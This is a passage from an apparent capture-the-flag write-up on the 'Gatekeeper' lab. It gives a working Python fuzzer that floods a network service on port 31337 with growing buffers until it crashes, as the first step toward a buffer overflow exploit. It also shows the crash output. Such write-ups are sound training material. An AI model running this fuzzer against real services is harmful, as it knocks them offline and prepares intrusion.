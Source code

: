 ## Fuzzing

Now let's use a script to see if we can cause a buffer overflow:

```text
import socket, time, sys

ip = "192.168.0.11"
port = 31337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        print("Fuzzing with %s bytes" % len(string))
        s.send(string + "\r\n")
        data = s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

Here we start by sending the letter A 100 times which is a way of sending 100 bytes. We could have chosen any ASCII character. If we get a response we increase by 100, and send again. The script repeats until there isn't a response, which we assume means the gatekeeper application has crashed.

Start the script on Kali:

```text
root@kali:/home/kali/thm/gatekeeper# python fuzzer.py
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Could not connect to 192.168.0.11:31337
```

After sending 200 bytes we can't connect. Switch to Win10 to see what the app is doing:

![gatekeeper-app-crash](/assets/images/2021-03-16-22-50-29.png)
